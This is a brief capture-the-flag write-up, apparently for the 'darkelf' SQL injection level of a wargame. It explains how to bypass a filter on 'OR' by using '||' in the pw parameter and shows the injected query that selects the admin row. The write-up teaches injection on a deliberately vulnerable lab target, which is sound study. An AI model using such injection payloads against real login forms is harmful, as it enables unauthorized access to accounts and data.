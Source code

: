 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 6
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6674ab0c-5e81-49b2-b7e4-62093ae1c3da)

We are provided with the SQL query:

```sql
SELECT id FROM prob_darkelf WHERE id='guest' AND pw='{$_GET[pw]}'
```

This level prints out the flag if the `id=admin`. 

However, it also removes the `OR` characters. In order to get around this, we need to use the double pipe (`||`) characters.

If we provide the following URI parameter:

```
?pw=' || id='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkelf WHERE id='guest' AND pw='' || id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/f912a7a1-a27a-4632-938b-1e6d6bcc56dc)
